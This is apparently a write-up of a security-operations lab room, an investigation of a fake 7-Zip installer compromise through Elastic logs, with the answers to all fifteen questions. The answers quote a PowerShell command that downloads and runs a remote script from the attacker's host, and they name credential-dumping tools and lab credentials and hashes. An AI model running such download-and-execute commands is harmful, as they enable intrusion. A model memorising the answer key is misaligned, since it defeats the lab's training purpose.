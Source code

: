 **Scenario**

Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application. 

<img width="995" height="523" alt="image" src="https://github.com/user-attachments/assets/b1800c69-fd5b-4a7e-966e-df0f3d02d62c" />

Last September 26, 2023, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.

Connection Details﻿

Deploy the attached machine by clicking the Start Machine button in the upper-right-hand corner of the task. The provided virtual machine runs an Elastic Stack (ELK), which contains the logs that will be used throughout the room. 

Once the machine is up, access the Kibana console (via the AttackBox or VPN) using the following credentials below. The Kibana instance may take up to 3-5 minutes to initialise.

<img width="442" height="254" alt="image" src="https://github.com/user-attachments/assets/cafaf393-75bb-43d9-b956-6107d792247a" />


Q1. What is the URL of the malicious software that was downloaded by the victim user?

Answer: _http://www.7zipp.org/a/7z2301-x64.msi_

Q2. What is the IP address of the domain hosting the malware?

Answer: _206.189.34.218_

Q3. What is the PID of the process that executed the malicious software?

Answer: _2532_

Q4. Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?

Answer: _powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)_

Q5. The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?

Answer:_ C:\Windows\Temp\7zlegit.exe_

Q6. What is the name of the service that was installed?

Answer: _7zService_

Q7. The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?

Answer: _SYSTEM_

Q8. After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?

Answer: _Invoke-PowerExtract_

Q9. What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)

Answer:_ james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF_

Q10. After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?

Answer: _pwn3dpw!!!_


Q11. What is the name of the workstation where the new account was used?

Answer: _WKSTN-02_


Q12. After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?

Answer: _SSF\itadmin:NoO6@39Sk0!_


Q13. Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?

Answer: _Invoke-SharpKatz.ps1_

Q14. What is the AES256 hash of the domain admin based on the credential dumping output?

Answer: _f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534_

Q15. After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?

Answer: _46_

